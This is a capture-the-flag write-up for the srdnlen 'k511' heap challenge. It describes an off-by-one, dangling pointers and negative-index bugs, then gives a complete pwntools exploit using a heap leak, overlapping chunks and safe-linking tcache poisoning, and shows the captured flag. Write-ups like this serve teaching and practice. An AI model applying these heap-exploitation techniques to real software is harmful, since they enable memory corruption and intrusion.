

## Overview

The binary provided has the structure of a classic heap challenge, in fact a user has access to the following options:
1. `Create new memory`: gets user input and allocates a chunk to store it in, the pointer of the chunk is stored in a list.
2. `Recollect memory`: provided an index, prints the content of a memory.
3. `Erase memory`: provided an index, frees the memory and removes it from the list.

**Max input size**: 64 bytes
**Max number of memories**: 16

**The flag is stored on the heap, in the chunk just under the list**
## Vulnerabilities

Intentionally or unintentionally, there are plenty of vulns in the binary:
- `Negative indexes`: **collect_num** is the function used to retrieve and validate a user index, negative indexes pass the validation process. This vuln was not used in the final exploit and, from what I understood, was not intended by the author.

- `Off-by-one`: basically malloc gets called with a size which is one byte smaller than our input.
```c
len = strnlen(input, 0x40uLL) - 1;
printf("String collected. Len: %d\n", len);
memory = (char *)malloc(len);	
```

- `Dangling pointers`: the function that handles the deletion of a memory deletes a pointer only if it precedes a hole (empty slot in the list).
```c
int erase_memory(void **mem_list, int idx)
{
  int i;
  free(mem_list[idx]);
  for ( i = 0; i <= idx; ++i )
  {
    if ( !mem_list[i] )
	  // the function returns if a hole is found
      return puts("There's a hole in your memory somewhere...");
    if ( idx == i )
    {
      mem_list[i] = 0LL;
      return printf("Erased at slot %d", i);
    }
  }
  return puts("Ran out of memory.");
}
```


## Exploitation

The idea is to leak the heap and override the list with a pointer to the flag. 
#### Leak heap
1. Allocate 2 chunks and free the first, creating a hole
2. Free the second chunk (leave dangling pointer)
3. Allocate the chunk just freed from the tcache (now idx 1 and 2 of the list point to the same chunk)
4. Free the chunk again using idx 2 (now we have a pointer to a freed chunk at idx 1)
5. Leak heap by reading chunk 1

#### Allocate over the list
1. Leverage the off-by-one to gain overlapping chunks
	
	*Yes, I just wanted to practice with the graphics tablet..*

2. Change the fd of the overlapped chunk (make it point inside the list)
3. Allocate over the list, inserting the pointer to the flag in it
4. Fill the holes (that's needed because the function that handles the "memory recall" returns if it finds one)
5. Read the flag

#### Final Exploit
```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("k511.elf_patched")

context.binary = exe
context.terminal = ["alacritty", "-e"]

env = {"FLAG": "flag{test}"}

NC_CMD = "nc k511.challs.srdnlen.it 1660"
gdbscript = \
"""
set resolve-heap-via-heuristic force
"""

def conn():
    if args.LOCAL:
        r = process([exe.path], env=env)
    elif args.GDB:
        r = gdb.debug([exe.path], gdbscript=gdbscript, env=env)
    else:
        r = remote(NC_CMD.split(" ")[1], int(NC_CMD.split(" ")[2]))

    return r

r = conn()

def free(idx):
    r.sendlineafter(b"Quit.", b"3")
    r.sendlineafter(b"require.", str(idx).encode())

def alloc(data):
    r.sendlineafter(b"Quit.", b"1")
    r.sendlineafter(b".", data)
    r.recvuntil(b"in slot")
    return int(r.recvline().split(b".")[0])

def read(idx):
    r.sendlineafter(b"Quit.", b"2")
    r.sendlineafter(b"require.", str(idx).encode())
    r.recvuntil(b"\n\t\"")
    return r.recvuntil(b"\"", True)

def main():

    alloc(b"A" * 0x16)
    alloc(b"A" * 0x26)
    free(1) # create hole
    free(2) # leaves dangling pointer

    # allocate from tcache (now same chunk is at idx 1 and 2)
    alloc(b"A" * 0x26) 
    free(2) # free to place forward pointer

    # read the freed chunk to leak heap
    heap_leak = u64(read(1).ljust(8, b"\0")) << 12
    success(f"Heap base: {hex(heap_leak)}")

    # leverage off-by-one to create overlapping chunks
    payload = b"A" * 0x18 + p16(0x41)
    alloc(payload) # idx 2
    alloc(b"A" * 0x16) # idx 3 (chunk to overlap)
    free(2)
    free(3)
    free(1) # goes in 0x40 tcache

    # allocate the overlapping chunk
    # change the fd of the overlapped chunk to allocate over the list
    payload = b"A" * 0x30
    payload += p64(((heap_leak+0x3d0) >> 12) ^ (heap_leak + 0x2d0)) # safe-link
    alloc(payload)

    alloc(b"A" * 0x16) # allocate the overlapped chunk
    
    # allocate over the list and place a ptr to the flag
    alloc(p64(heap_leak+0x330))

    alloc(b"A" * 0x16) # fill the hole
    print(read(6)) # read the flag

    r.interactive()


if __name__ == "__main__":
    main()
```

**FLAG**: `srdnlen{my_heap_has_already_grown_this_large_1994ab0a77f8355a}`
